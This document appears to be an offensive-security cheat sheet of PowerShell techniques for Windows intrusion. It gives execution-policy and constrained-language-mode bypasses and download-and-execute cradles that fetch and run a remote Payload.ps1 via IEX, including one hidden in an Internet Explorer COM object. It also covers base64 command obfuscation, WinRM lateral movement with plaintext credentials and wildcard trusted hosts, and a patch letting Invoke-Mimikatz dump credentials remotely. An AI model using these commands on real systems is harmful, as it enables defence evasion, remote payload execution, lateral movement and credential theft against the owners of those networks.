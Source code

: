 # Powershell

## From .NET
- Don't forget the Bypass policy (i.e. PS>Attack...)
```
PowerShell ps = PowerShell.Create();
ps.AddScript("Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module " + Strings.invokeObfuscationModulePath);
ps.Invoke();
ps.AddScript(cmd);
result = ps.Invoke()[0].ToString();
```

## General
### Usage
```
Get-Help <command>
Get-Help <command> -Examples
Get-Help <command> -Parameter <parameter>
<command> -Verbose
```
### Alias
```
Get-Alias -Definition Get-ChildItem
Alias      dir -> Get-ChildItem
Alias      gci -> Get-ChildItem
Alias      ls -> Get-ChildItem
```
### Cmdlets
- Kind of created function which can be called from a script and returns a .NET object
- List the Cmdlets
```
Get-Command -CommandType cmdlet
```

### Execution policy
```
Get-ExecutionPolicy
```
- Only used when executing a script (copy/paste the script within a Powershell prompt will work)
- Only aims to ensure the script was not launched by inadvertence, this is not a security feature
```
powershell -ExecutionPolicy bypass
powershell -ep bypass
powershell -c <command>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

- https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

### Modules
- Import and listing
```
Import-Module <module>.psd1
ou
. <module>.ps1
```

- List the module commands
```
Get-Command -Module <module>
```

### Constrained Language Mode
A nice protection blocking some hacky methods like IEX...

#### Check if the Constrained Language mode is enabled:
```
$ExecutionContext.SessionState.LanguageMode
-> ConstrainedLanguage (Fuck...)
-> FullLanguage (Good !)
```

#### Trying to bypass it
1. Downloading [PowerShdll](https://github.com/p3nt4/PowerShdll)
2. Infiltrating the DLL into the system (with a python -m SimpleHTTPServer for example)
3. Executing it
```
rundll32 .\PowerShdll.dll,main -w
```

## Script execution
### Download execute cradle
- Without proxy
```
IEX (New-Object Net.WebClient).DownloadString("https://webserver/Payload.ps1")
```

- With proxy
```
$browser = New-Object Net.WebClient
$browser.Proxy.Credentials = [Net.CredentialCache]::DefaultNetworkCredentials
IEX ($browser).DownloadString("https://webserver/Payload.ps1")
```

- Within COM objects
```
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/Payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

### EncodedCommand
- Shitty obfuscation method
- Also IEX cradle
- Preparing the encoded command:
1. Bash
```
echo "<commande>" | iconv --to-code UTF-16LE | base64 -w 0
```

2. Python
```
from base64 import b64encode
b64encode('<commande>'.encode('UTF-16LE'))
```

3. Powershell
```
$Command = <commande>
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
$EncodedCommand = [Convert]::ToBase64String($Bytes)
```

- Now run it:
```
powershell.exe -EncodedCommand $EncodedCommand
```

### Invoke-CradleCrafter
https://github.com/danielbohannon/Invoke-CradleCrafter

## PS-Remoting via WinRM (Enter-PSSession)
1. Powershell Remoting may not be able on the system by default:
```
Enable-PSRemoting -Force
```

2. By default, Kerberos authentication is enabled. This method is only suitable for a given computer in a same domain or trust domain (name can be suffixed). However, it does not support cross-domain, extra-domain or IP addresses. If you want to cross-domain, or specify an IP address to execute, execute the following code on the client here, add all or a single remote host in the trust table:
```
Set-Item wsman:\localhost\client\trustedhosts *  
```

3. List the commands we can execute on a remote system
```
help * -Parameter computername
```

4. If you want to use other credentials than our user:
```
$Username = "<domaine>\<user>"
$PasswordPlain = "<password>"
$Password = ConvertTo-SecureString $PasswordPlain -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username, $Password
```

5. Execute the script:

*-Credential $Cred* only required if you followed the step 3.
- Within a PS-Session
```
$sess = New-PSSession -ComputerName <address> -Credential $Cred
PS C:\Windows\system32> Invoke-Command -FilePath <script_path> -Session $sess
PS C:\Windows\system32> Enter-PSSession -Session $sess
[<address>]: PS C:\<path> <notre_commande>
[<address>]: PS C:\<path> Exit-PSSession
```
- Via Invoke-Command
```
Invoke-Command -ComputerName <server> -Credential $Cred -ScriptBlock { <PS_block> }
```

6. Do not forget to flush the added trusted hosts:
- Every trusted hosts
```
Clear-Item WSMan:\localhost\Client\TrustedHosts
```

- Only a specific one:
```
$newvalue = ((Get-ChildItem WSMan:\localhost\Client\TrustedHosts).Value).Replace("<added_host>,","")
Set-Item WSMan:\localhost\Client\TrustedHosts $newvalue
```

## Invoke-Mimikatz.ps1
- WinRM but no Credential argument :'(
- Have to add one:
```
$Username = "<domaine>\<user>"
$PasswordPlain = "<password>"
$Password = ConvertTo-SecureString $PasswordPlain -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username, $Password

If ($ComputerName -eq $null -or $ComputerName -imatch "^\s*$")
{
    Invoke-Command -ScriptBlock $RemoteScriptBlock -ArgumentList @($PEBytes64, $PEBytes32, "Void", 0, "", $ExeArgs) -Credential $Cred
}
Else
{
    Invoke-Command -ScriptBlock $RemoteScriptBlock -ArgumentList @($PEBytes64, $PEBytes32, "Void", 0, "", $ExeArgs) -ComputerName $ComputerName -Credential $Cred
}
```
